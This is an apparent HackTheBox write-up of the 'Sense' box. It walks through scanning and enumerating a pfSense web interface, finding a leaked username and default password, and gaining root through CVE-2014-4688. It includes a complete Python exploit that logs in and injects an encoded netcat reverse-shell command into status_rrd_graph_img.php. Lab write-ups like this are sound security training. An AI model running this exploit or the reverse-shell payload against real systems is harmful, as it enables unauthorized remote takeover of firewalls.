

Box author | 

<!--more-->

## Nmap
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,443 -sCV -oN nmap/sense 10.10.10.60

80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/

443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
```

Well, only `2` ports are open, which is port `80` and `443`. Based on the port and service itself, looks like I'm dealing with the webserver this time. However, the scan results show me that the `url` on port `80` has been redirected to port `443` which is the `HTTPS` port.

## Https: Pfsense
I've navigated to port `443` on my browser and accepted the `SSL` certificates. I'll check the certificate and nothing useful for me. Turn's out, it is a [Pfsense](https://www.pfsense.org/) login page. Then, I'll try login in with the default credentials which is `admin:pfsense` and nothing unveil. By the look at the `index` page extension, this is a `PHP` webpage.


### Gobuster
Then, I run the [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. Unfortunately, I can't find anything useful and it's just found empty directories. So, I ended up putting a bunch of extensions such as `php,txt,html,cgi` for the second scan, and it manage to find "gold".


### Https: /changelog.txt
The first file that caught my attention is called `changelog.txt`. Upon expecting the file it says `"2 of 3 vulnerabilities have been patched"`. This gives me an idea of this particular version having a severe flaw that hasn't been patched. I have 1/3 luck here, to find which one of the flaws is.


### Https: /system-users.txt
Anyways, I've navigated to another text file called `system-users.txt` which leaks the username. However, the password says `"company defaults"`. Then, it makes me think it could be the box name which is `sense` just like [nibbles](https://shafiqaiman.com/hackthebox-nibbles-writeup/) box that I did before, or the default [Pfsense](https://www.pfsense.org/) credentials which is `pfsense`.


### Https: Pfsense/Dashboard
I'll try both credentials and the correct one is `pfsense` and it looks just like a generic pfsense dashboard, what do I expect :). However, it has the version number sitting in front of me which is `2.1.3-RELEASE`.


## Foothold: CVE-2014-4688
Since this is an old box, I immediately find the exploit and cve with it. This vulnerability is assigned to [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688) and the description says `"this CVE assign to 3 vulnerabilty found in pfsense"`. However, one of them did not patch as the `changelog.txt` file expose to me. Luckily, I find this [exploit](https://www.exploit-db.com/exploits/43560) on [exploit-db](https://www.exploit-db.com/). Which explores the vulnerability in post-authentication in the `status_rrd_graph_img.php` page but again I want to be "l33t" and create my exploits by copying the existent exploits. (Why not? lol). Credited to Ryan McFarland aka [absolomb](https://www.absolomb.com/) and here are the results.

```python
#!/usr/bin/env python3
import sys
import argparse
import requests
from bs4 import BeautifulSoup as bs
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser()
parser.add_argument('-U', '--username', metavar='', help='Username')
parser.add_argument('-P', '--password', metavar='', help='Password')
parser.add_argument('-r', '--rhost', metavar='', help='Remote IP')
parser.add_argument('-i', '--lhost', metavar='', help='Listening IP')
parser.add_argument('-p', '--lport', metavar='', help='Listening port')
args = parser.parse_args()

def get_csrf():
    req = requests.get(f"https://{args.rhost}/index.php", verify=False)
    soup = bs(req.text, features="lxml")
    csrf = soup.find('input', {'name':'__csrf_magic'})['value']
    return csrf

def payload(ip, port):
    payload = ""
    command = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc {ip} {port} > /tmp/f"
    for char in command:
        payload += ("\\" + oct(ord(char)).lstrip("0o"))
    return payload

if __name__ == '__main__':
    try:
        s = requests.Session()
        csrf = get_csrf()
        payload = payload(args.lhost, args.lport)

        data = {'__csrf_magic':csrf, 'usernamefld':args.username, 'passwordfld':args.password, 'login':'Login'}
        req = s.post(f"https://{args.rhost}/index.php", data=data, verify=False)
        print(f"LOGIN... {req.status_code}")

        print("Trying to exploit...")
        req = s.get(f"https://{args.rhost}/status_rrd_graph_img.php?database=queues;printf+'{payload}'|sh", verify=False)
        print("If you see this, it's doesn't work!")
    except (KeyboardInterrupt, requests.exceptions.ConnectionError) as Error:
        sys.exit()
```



BOOM! root baby! this is because firewall applications tend to be installed under root privilege.